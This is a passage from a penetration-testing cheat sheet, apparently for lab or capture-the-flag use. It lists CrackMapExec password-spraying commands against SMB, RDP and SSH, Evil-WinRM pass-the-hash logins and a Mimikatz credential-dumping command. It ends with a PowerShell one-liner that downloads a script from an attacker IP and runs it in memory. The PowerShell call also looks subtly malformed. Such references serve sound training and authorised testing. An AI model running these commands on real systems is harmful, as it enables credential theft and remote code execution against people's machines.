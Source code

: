 ```bash
# SMB
cme smb "[IP]" -u "[USERNAME-LIST]" -p "[PASSWORD-LIST]" --continue-on-success

# SMB List Shares
cme smb "[IP]" -u "[USERNAME-LIST]" -p "[PASSWORD-LIST]" --shares

# RDP
cme smb "[IP]" -u "[USERNAME-LIST]" -p "[PASSWORD-LIST]" --continue-on-success -M rdp -o ACTION='enable'

# SSH
cme ssh "[IP]" -u "[USERNAME-LIST]" -p "[PASSWORD-LIST]" --continue-on-success
```
### Evil-WinRM

Commands:

```bash
# Credentials
evil-winrm -i "[IP]" -u "[USERNAME]" -p "[PASSWORD]"

# Hash
evil-winrm -i "[IP]" -u "[USERNAME]" -H "[HASH]"

# Evil-winrm & Mimikatz
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```
## Exploit

Commands:

```bash
sudo ifconfig tun0 mtu 750 
```

Exploit Websites:
* [PacketStormSecurity](https://packetstormsecurity.com/)
* [ExploitDB](https://www.exploit-db.com/)

Always change the:
* IP-Address
* Port Number
* Directory

## File Transfer

PowerShell Command:

```powershell
# Instantly executing powershell script
IEX(New-Object Net.WebClient).Download("http://10.10.16.11/Sherlock.ps1");Invoke-Sherlock
```
